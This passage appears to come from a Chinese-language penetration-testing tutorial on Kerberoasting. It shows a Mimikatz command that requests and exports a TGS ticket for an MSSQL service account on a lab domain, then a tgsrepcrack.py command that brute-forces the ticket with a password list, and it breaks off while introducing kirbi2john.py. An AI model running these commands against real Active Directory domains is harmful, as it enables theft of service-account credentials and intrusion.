 ### 利用 Mimikatz 进行攻击

#### 使用 Mimikatz 请求 SPN 服务并且导出 TGS 票据

```plain
mimikatz.exe "kerberos::ask /target:MSSQLSvc/win7.rootkit.org:1433" "kerberos::list /export" exit
```

[![](assets/1708919803-d4d82fbeb93def4027ba9431cfcbcd7e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142107-e6d8b240-ce25-1.png)

#### 对票据进行暴力破解

方法 1：使用 `tgsrepcrack.py` 进行破解

```plain
python tgsrepcrack.py pass.txt tgs.kirbi
```

[![](assets/1708919803-2b87a0113d641f40f3bf2ce6ec82b0f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142113-ea80c748-ce25-1.png)

方法 2：使用 `kirbi2john.py` 将票据文件转换为`hash`值进行暴力破解
